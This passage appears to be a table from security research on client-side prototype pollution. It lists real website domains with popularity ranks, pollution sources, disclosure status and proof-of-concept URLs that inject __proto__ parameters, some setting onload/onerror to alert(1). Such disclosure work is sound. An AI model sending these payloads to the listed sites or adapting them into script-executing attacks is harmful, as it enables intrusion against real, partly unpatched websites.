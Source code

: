 |astro7.ru|221051|URL search|, URL-M|Reported|`https://astro7.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|astronomy.com|9990|URL search|-|Fixed|`https://astronomy.com/photos/picture-of-day/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|atarim.io|471818|URL search|-|Not|`https://atarim.io/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|athletic-store.ru|463293|URL search|, Cookie-M|Reported|`https://athletic-store.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|atlassian.com|658|URL search|, URL-M|Not|`https://atlassian.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|atoms.com|42315|URL search|, Cookie-M|Reported|`https://atoms.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|attentivemobile.com|11143|URL search|, Cookie-M, URL-M|Reported|`https://www.attentivemobile.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|attn.tv|14371|URL search|, URL-M|Reported|`https://www.attentivemobile.com/about/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|attorneyetal.com|133185|URL search|, URL-M|Reported|`https://attorneyetal.com/groups/a-guide-to-learning-more-about-preparing-food/forum/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|auara.org|819364|URL|-|Reported|`https://auara.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|auau.co.kr|649044|URL|-|Reported|`https://auau.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|auditboard.com|273041|URL search|, URL-M|Not|`https://www.auditboard.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|auralex.com|192802|URL search|-|Reported|`https://auralex.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|auralic.com|867441|URL search|-|Reported|`https://us.auralic.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|aurelia.io|228572|URL search|-|Reported|`https://aurelia.io/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|autobodygreensboro.com|463475|URL search|-|Reported|`https://autobodygreensboro.com/blog/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|autodealermonthly.com|912060|URL search|, URL-M|Reported|`https://autodealermonthly.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|automationmag.com|342987|URL search|-|Reported|`https://automationmag.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|automationworld.com|67655|URL search|-|Reported|`https://automationworld.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|automotive-fleet.com|107513|URL search|-|Reported|`https://automotive-fleet.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|automox.com|12326|URL search|-|Not|`https://www.automox.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|autonettv.com|814192|URL search|, Cookie-M, URL-M|Reported|`https://autonettv.com/products/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|autonomousvehicletech.com|915457|URL search|-|Not|`https://autonomousvehicletech.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|autorentalnews.com|202978|URL search|, URL-M|Not|`https://autorentalnews.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|autoserviceprofessional.com|442918|URL|, Cookie-M|Not|`https://autoserviceprofessional.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|autoset.by|924319|URL search|, Cookie-M|Reported|`https://autoset.by/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|autotuning.expert|825002|URL search|, Cookie-M|Reported|`https://autotuning.expert/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|autoweek.com.ua|788364|URL search|, Cookie-M|Reported|`https://autoweek.com.ua/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avanzagrupo.com|308478|URL search|, Cookie-M, URL-M|Reported|`https://avanzagrupo.com/nuestro-equipo/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|aviationtoday.com|45960|URL|, URL-M|Reported|`https://www.aviationtoday.com/category/business-ga/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|avocadosfrommexico.com|183633|URL search|, URL-M|Reported|`https://avocadosfrommexico.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avoma.com|222001|URL search|, URL-M|Reported|`https://www.avoma.com/about/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|avoxi.com|82106|URL search|, URL-M|Reported|`https://avoxi.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avselectro.ru|330649|URL search|, Cookie-M|Reported|`https://avselectro.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avtika.ru|275899|URL search|, Cookie-M|Reported|`https://avtika.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avtoelon.uz|270456|URL search|, Cookie-M|Reported|`https://avtoelon.uz/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avtogermes.ru|154705|URL|, Cookie-M|Reported|`https://avtogermes.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`